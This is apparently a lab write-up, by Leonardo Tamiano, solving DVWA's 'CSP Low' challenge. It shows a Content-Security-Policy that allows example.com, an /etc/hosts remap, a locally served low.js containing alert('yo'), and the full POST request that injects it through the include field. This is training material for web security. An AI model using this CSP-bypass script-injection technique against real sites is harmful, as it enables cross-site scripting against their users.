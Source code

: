 #+TITLE: DVWA - CSP Low
#+AUTHOR: Leonardo Tamiano

* Description
  When we request the page the server sends us the following headers

  #+begin_example
HTTP/1.1 200 OK
Date: Fri, 10 Nov 2023 18:06:56 GMT
Server: Apache/2.4.25 (Debian)
Expires: Tue, 23 Jun 2009 12:00:00 GMT
Cache-Control: no-cache, must-revalidate
Pragma: no-cache
Content-Security-Policy: script-src 'self' https://pastebin.com  example.com code.jquery.com https://ssl.google-analytics.com ;
Vary: Accept-Encoding
Content-Length: 4275
Connection: close
Content-Type: text/html;charset=utf-8
  #+end_example

  Notice the ~Content-Security-Policy~ header, with its values

  #+begin_example
script-src 'self' https://pastebin.com  example.com code.jquery.com https://ssl.google-analytics.com ;
  #+end_example

  this tells us that we can load javascript sources from:

  - https://pastebin.com
  - example.com
  - code.jquery.com
  - https://ssl.google-analytics.com
  
* Solution
  We first try to create an entry from https://pastebin.com, however
  this does not work because the official pastebin server returns the
  following HTTP headers

  #+begin_example
HTTP/2 200 OK
Date: Fri, 10 Nov 2023 18:09:59 GMT
Content-Type: text/plain; charset=utf-8
X-Frame-Options: DENY
X-Content-Type-Options: nosniff
X-Xss-Protection: 1;mode=block
Cache-Control: public, max-age=1801
Cf-Cache-Status: EXPIRED
Last-Modified: Fri, 10 Nov 2023 17:56:46 GMT
Vary: Accept-Encoding
Server: cloudflare
Cf-Ray: 82403fecc8a499c8-CDG

alert("yo");
  #+end_example

  what makes this attack not work its the ~X-Content-Type-Options~ value.

  -------------

  To actually make it working we can abuse the other domain, the
  ~example.com~ domain. In particular, we edit our ~/etc/hosts~ filename
  (this, from a threat-modelling perspective, would require us as the
  attacker to change the DNS records of the victim client) and we
  insert the following lines

  #+begin_example
127.0.0.1 evil example.com
  #+end_example

  Then we write the following simple javascript script named ~low.js~

  #+begin_src js
alert("yo");
  #+end_src

  and finally we start an HTTP server with python

  #+begin_example
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
  #+end_example

  Finally, we go to the form and put the following payload

  #+begin_example
http://example.com/low.js
  #+end_example

  and this lets us execute our javascript file.

  The actual HTTP request is

  #+begin_example
POST /vulnerabilities/csp/ HTTP/1.1
Host: evil:90
Content-Length: 41
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
Origin: http://evil:90
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://evil:90/vulnerabilities/csp/
Accept-Encoding: gzip, deflate, br
Accept-Language: it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: PHPSESSID=2ggdg07lmkgjmbo2s590f2rn07; security=low
Connection: close

include=http%3A%2F%2Fexample.com%2Flow.js
  #+end_example
